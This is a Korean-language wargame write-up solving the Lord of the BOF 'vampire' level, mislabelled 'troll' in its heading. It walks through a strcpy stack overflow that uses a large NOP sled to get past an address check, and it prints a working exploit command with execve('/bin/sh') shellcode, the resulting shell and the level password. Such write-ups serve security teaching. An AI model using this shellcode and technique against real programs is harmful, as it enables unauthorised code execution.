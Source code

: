 ============================================================================================================
[lob] troll
============================================================================================================

.. uml::
    
    @startuml

    start

    :Source Analysis;

    :Memory Structure;

    :Segmentation fault;

    :argv[1]의 주소값 변경;

    :RET 주소를 argv[1] 주소로 변경하여 공격 진행;
    
    stop

    @enduml


|

Source Analysis
============================================================================================================


해당 문제 소스코드는 다음과 같습니다.

.. code-block:: c

    /*
        The Lord of the BOF : The Fellowship of the BOF
        - vampire
        - check 0xbfff
    */

    #include <stdio.h>
    #include <stdlib.h>

    main(int argc, char *argv[])
    {
        char buffer[40];

        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }

        if(argv[1][47] != '\xbf')
        {
            printf("stack is still your friend.\n");
            exit(0);
        }

        // here is changed!
        if(argv[1][46] == '\xff')
        {
            printf("but it's not forever\n");
            exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
    }


|

Memory Structure
============================================================================================================

스택 메모리 공간에 다음과 같이 들어가게 됩니다.

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte) <- strcpy
    SFP     (4byte)
    RET     (4byte)
    argc    (4byte)
    argv    (4byte)
    ----------------
    HIGH    
    ================

|

Segmentation fault
============================================================================================================

strcpy로 인해 입력한 값이 버퍼보다 클 경우 오버플로우가 발생됩니다.

※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행해야 합니다.

.. code-block:: console

    $ ./vampire2 `python -c 'print "a"*47'`

    stack is still your friend.

    $ ./vampire2 `python -c 'print "a"*47+"\xbf"'`

    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa▒
    Segmentation fault



|

exploit
============================================================================================================

argv[1]의 주소값 변경
------------------------------------------------------------------------------------------------------------

argv[1]의 주소가 \\xbf\\xff로 시작하기 때문에 argv[1]에 nop를 100000만큼 삽입하여 주소값을 \\xbf\\xfe로 시작하도록 합니다.

.. code-block:: console

    $ ./vampire2 `python -c 'print "a"*47+"\xbf"+"\x90"*100000'`
    buffer : 0xbffe7460
    argv[1]: 0xbffe74d8

    Segmentation fault

|

RET 주소를 argv[1] 주소로 변경하여 공격 진행
------------------------------------------------------------------------------------------------------------

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte) <- "\x90"*40
    SFP     (4byte)  <- "\x90"*4
    RET     (4byte)  <- argv[1] address
    argc    (4byte)  <- "\x90"*4
    argv    (4byte)  <- "\x90"*100000 + shellcode
    ----------------
    HIGH    
    ================

|

nop (44 byte) + argv[1] address + nop (100000 byte) + shellcode (25 byte)

.. code-block:: console

    $ ./vampire `python -c 'print "\x90"*44 + "\xd8\x74\xfe\xbf" + "\x90"*100000 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

    ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒▒°
                                           ̀▒▒▒▒

    bash$ whoami
    vampire
    bash$ my-pass
    euid = 509
    music world
